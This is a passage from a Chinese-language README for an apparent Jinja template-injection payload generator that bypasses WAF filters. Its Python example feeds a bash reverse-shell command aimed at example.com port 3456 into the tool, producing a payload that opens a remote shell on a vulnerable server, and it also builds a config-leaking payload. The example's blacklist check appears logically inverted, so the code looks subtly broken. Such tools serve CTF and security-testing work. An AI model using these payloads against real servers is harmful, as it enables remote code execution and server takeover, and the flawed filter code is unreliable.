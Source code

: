 ### 作为python库使用

参考[example.py](example.py)

```python
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str):
    blacklist = [
        "config", "self", "g", "os", "class", "length", "mro", "base", "lipsum",
        "[", '"', "'", "_", ".", "+", "~", "{{",
        "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
        "０","１","２","３","４","５","６","７","８","９"
    ]
    return all(word in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    print(f"{config_payload=}")

```

其他使用例可以看[这里](examples.md)

## 技术细节

项目结构如下：

[![](https://mermaid.ink/img/pako:eNptU8tuwyAQ_BWE1JziH8ihh6rXntpT68ja4CVGxYvLo0ka5d-L7SQGxxwQDLuzj1nOXJga-YZLbQ6iAevZx0tJLC4XdnsLXcOCV9qxEeyXMNpY9YcTYvEnoPNoJ0ga26Yu5Px0HU9I9TySQ1soikQSBKYhtfqS4DYSivjYKgLdY9vJ4oC70NvsehupLEpzHMFtRsOK4nnE70mwWRbCgvhG6xK_EUmigaxkIFHtkSY0MrTKZ21wAqgKVj9wDXksOKTPy1FSdIllaGtJs6I6OGkDdVLU0xOrY5-EV4buol_F8nj01S-kPXANal1daTJjqfaPuAyTdZ7_IpjTsFUebihzzjiA6X21kPl9xm7SZ1LewFylcR9mZMEl0eexxpL4mrdxQkHV8VOde5-S-wZbLPkmHgmDt6BLXtIlmkLw5v1Egm-8DbjmoavB46uCKFrL4yhrF9EO6NOY6Y618sa-jR93-L-Xf1aoMIE?type=png)](https://mermaid.live/edit#pako:eNptU8tuwyAQ_BWE1JziH8ihh6rXntpT68ja4CVGxYvLo0ka5d-L7SQGxxwQDLuzj1nOXJga-YZLbQ6iAevZx0tJLC4XdnsLXcOCV9qxEeyXMNpY9YcTYvEnoPNoJ0ga26Yu5Px0HU9I9TySQ1soikQSBKYhtfqS4DYSivjYKgLdY9vJ4oC70NvsehupLEpzHMFtRsOK4nnE70mwWRbCgvhG6xK_EUmigaxkIFHtkSY0MrTKZ21wAqgKVj9wDXksOKTPy1FSdIllaGtJs6I6OGkDdVLU0xOrY5-EV4buol_F8nj01S-kPXANal1daTJjqfaPuAyTdZ7_IpjTsFUebihzzjiA6X21kPl9xm7SZ1LewFylcR9mZMEl0eexxpL4mrdxQkHV8VOde5-S-wZbLPkmHgmDt6BLXtIlmkLw5v1Egm-8DbjmoavB46uCKFrL4yhrF9EO6NOY6Y618sa-jR93-L-Xf1aoMIE)

payload生成原理见[howitworks.md](./howitworks.md)

## Stars
